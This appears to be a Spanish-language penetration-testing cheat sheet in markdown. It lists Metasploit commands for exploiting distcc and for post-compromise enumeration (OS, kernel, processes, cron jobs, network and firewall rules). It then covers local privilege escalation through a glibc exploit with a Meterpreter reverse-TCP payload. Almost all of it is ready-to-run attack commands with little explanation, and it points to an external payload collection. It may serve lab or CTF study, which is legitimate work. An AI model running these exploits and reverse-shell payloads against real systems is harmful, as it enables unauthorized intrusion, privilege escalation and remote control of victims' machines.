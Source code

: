 ### Reverse Msfconsole

```sh
msf6 > 
use exploit/unix/misc/distcc_exec
show payloads
set payload 5
```

## Obtener datos teniendo acceso

```sh
# Conocer SO
cat /etc/*-release

# Kernel
uname -a
cat /proc/version

# Tiempo sin reinciarse
uptime

# Paquetes
dpkg -l

# Proesos
ps
ps aux

# Tareas programas
crontab -l
ls /etc/cron

# red
ip route 
netstat
iptables -L -n

# metasploit 
msf6 > 
use post/multi/recon/local_exploit_suggester

use exploit/linux/local/glibc_ld_audit_dso_load_priv_esc
set payload payload/linux/x86/meterpreter_reverse_tcp
```

### PayloadsAllTheThings

[Repo](https://github.com/swisskyrepo/PayloadsAllTheThings)  

[web](https://swisskyrepo.github.io/PayloadsAllTheThings/)

#### linpeas
